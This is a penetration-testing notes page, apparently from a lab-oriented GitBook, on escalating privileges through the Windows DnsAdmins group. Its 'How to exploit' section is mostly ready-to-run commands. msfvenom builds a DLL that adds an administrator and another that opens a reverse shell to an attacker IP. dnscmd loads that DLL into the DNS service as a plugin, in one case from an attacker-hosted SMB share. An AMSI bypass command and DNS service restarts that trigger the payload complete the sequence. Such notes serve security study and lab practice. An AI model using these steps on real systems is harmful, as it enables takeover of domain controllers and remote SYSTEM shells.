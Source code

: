 ```yaml
---
description: DNSAdmin to DC
---
```


# DnsAdmins

DnsAdmins group members have access to DNS information on the network. The DNS service runs as `NT AUTHORITY\SYSTEM`. This can be used to escalate privileges on a DC or other server that is acting as the DNS server for the domain.&#x20;

{% hint style="info" %}
It is possible to use the built-in [dnscmd](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd) utility to specify the path of the plugin DLL. Then load a custom DLL which will be loaded after the DNS service has restarted.
{% endhint %}

### <mark style="color:yellow;">Domain Controllers and DNS</mark>

* In Active Directory environments, Domain Controllers often act as DNS servers.
* DNS servers are critical to Active Directory operation and are accessible to most domain users.
* Microsoft implemented a custom DNS management protocol over **Remote Procedure Call (RPC)** for managing DNS.

{% hint style="info" %}
The combination of the DNS protocol and the custom management protocol introduces a significant attack surface on Domain Controllers.
{% endhint %}

### <mark style="color:yellow;">How to exploit</mark>

Generate a malicious DLL to execute commands

```powershell
# Add user to group
msfvenom -p windows/x64/exec cmd='net group "Administrators" ryan /add' -f dll -o adduser.dll

# Reverse shell
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.153 LPORT=443 -f dll -o reverse.dll
```

Load the custom DLL

```powershell
dnscmd.exe /config /serverlevelplugindll C:\Users\public\reverse.dll
```

From target run&#x20;

```powershell
# From evil-winrm 
Bypass-4MSI
dnscmd.exe /config /serverlevelplugindll 'C:\users\ryan\reverse.dll'

# Using smb server
impacket-smbserver share -smb2support .
dnscmd localhost /config /serverlevelplugindll \\10.10.14.153\share\reverse.dll
```

Finally stop and start DNS again to trigger the DLL file.

```powershell
sc.exe stop dns
sc.exe start dns
```

